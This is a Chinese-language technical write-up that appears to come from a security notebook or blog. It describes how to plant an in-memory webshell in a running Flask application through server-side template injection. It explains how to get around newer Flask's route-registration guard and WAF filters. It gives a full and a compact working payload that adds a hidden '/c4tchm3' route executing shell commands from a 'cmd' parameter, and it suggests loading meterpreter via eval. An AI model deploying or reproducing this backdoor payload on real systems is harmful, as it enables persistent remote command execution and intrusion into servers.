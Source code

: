 # 介绍
	- 内存马是一种通过攻击正在运行的服务器后端，通过添加恶意的路由向其添加新的后门的技术。因为后门
- # 前人的工作
	- 网上流传着这么一个技巧：使用app实例中的`add_url_rule`可以向app中动态添加路由
	- 有人给出了[SSTI的payload](https://github.com/jweny/MemShellDemo/blob/master/MemShellForPython/python%20flask%20%E5%86%85%E5%AD%98%E9%A9%AC.md)完成这个操作，但是存在以下问题
		- payload被写在了ssti的payload中，无法动态地绕过WAF
		- 过于依赖flask内部机制，在最新版flask中已经不能用payload中的方式找到app实例
		- 添加路由的方式已经过时，新版flask提示：
			- ```
			  AssertionError: The setup method 'add_url_rule' can no longer be called on the application. It has already handled its first request, any changes will not be applied consistently.
			  Make sure all imports, decorators, functions, etc. needed to set up the application are done before running it.
			  ```
- # 新思路
	- 翻找flask的代码，发现app实例中有一个endpoint函数，其职责是注册动态路由的函数。其会将路由函数放入`self.view_functions`中，代码如下：
		- ```python
		  def decorator(f: F) -> F:
		      self.view_functions[endpoint] = f
		      return f
		  
		  return decorator
		  ```
	- `self.view_functions`的注释给出了使用例，用于注册新的路由。
		- ```python
		  app.add_url_rule("/ex", endpoint="example")
		  ```
	- 我们可以将新的函数放进`view_functions`中，然后调用`app.add_url_rule`动态添加内存马
	- `app.add_url_rule`这个函数被装饰器`@setupmethod`装饰，我们需要修改`app._got_first_request`为False，让其以为第一个请求还没有到来才能继续添加新的路由
		- ```python
		  app.__dict__.update({'_got_first_request':False})
		  ```
	- 为了动态地绕过SSTI WAF, 我们通过sys模块而不是jinja变量找到app实例：`sys.modules["__main__"].app`
	- 而且为了减少对全局变量的依赖，这里仅仅使用一个全局变量完成所有操作：使用builtins中的`__import__`函数
	- 然后完成上方的两个操作即可，payload如下：
		- ```python
		  [
		      app.view_functions
		      for app in [ __import__('sys').modules["__main__"].app ]
		      for c4tchm3 in [
		          lambda : __import__('os').popen(__import__('__main__').app.jinja_env.globals["request"].args.get("cmd", "id")).read()
		      ]
		      if [
		          app.__dict__.update({'_got_first_request':False}),
		          app.view_functions.__setitem__('c4tchm3', c4tchm3),
		          app.add_url_rule("/c4tchm3", endpoint="c4tchm3")
		      ]
		  ]
		  ```
	- 紧凑版payload
		- ```python
		  [ app.view_functions for app in [ __import__('sys').modules["__main__"].app ] for c4tchm3 in [ lambda : __import__('os').popen(__import__('__main__').app.jinja_env.globals["request"].args.get("cmd", "id")).read() ] if [ app.__dict__.update({'_got_first_request':False}), app.view_functions.__setitem__('c4tchm3', c4tchm3), app.add_url_rule("/c4tchm3", endpoint="c4tchm3") ] ] 
		  ```
	- 使用方式
		- 想办法把payload丢给eval执行即可，对SSTI来说应该很简单
		- 然后访问路由：`/c4tchm3?cmd=whoami`
- # 其他思路？
	- 其实如果可以eval的话，也可以直接用eval上线meterpreter的
	- 但是这就要出网了
-